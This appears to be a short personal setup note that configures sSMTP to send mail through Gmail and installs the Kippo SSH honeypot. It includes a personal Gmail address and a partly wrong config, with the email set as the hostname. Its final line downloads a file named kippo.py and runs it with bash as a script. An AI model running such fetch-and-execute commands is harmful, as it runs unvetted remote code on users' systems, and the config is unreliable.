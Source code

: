 #INSTALLING SMTP

sudo apt-get install ssmtp
cd /etc/ssmtp
vi ssmtp.conf

Config file for sSMTP sendmail

The person who gets all mail for userids < 1000
Make this empty to disable rewriting.
root=postmaster

 The place where the mail goes. The actual machine name is required no
 MX records are consulted. Commonly mailhosts are named mail.domain.com

mailhub=mail
mailhub=smtp.gmail.com:587

AuthUser=gostfaris94@gmail.com
AuthPass=
UseTLS=YES
UseSTARTTLS=YES

# Where will the mail seem to come from?
#rewriteDomain=
rewriteDomain=gmail.com

# The full hostname
hostname=gostfaris94@gmail.com

# Are users allowed to set their own From: address?
# YES - Allow the user to specify their own From: address
# NO - Use the system generated From: address
#FromLineOverride=YES

#SENT EMAIL
ssmtp [receipent email]

INSTALLING KIPPO
wget -q https://raw.githubusercontent.com/faris091/Test/Kippo/Kippo/kippo.py -O /tmp/setup.bash && bash /tmp/setup.bash
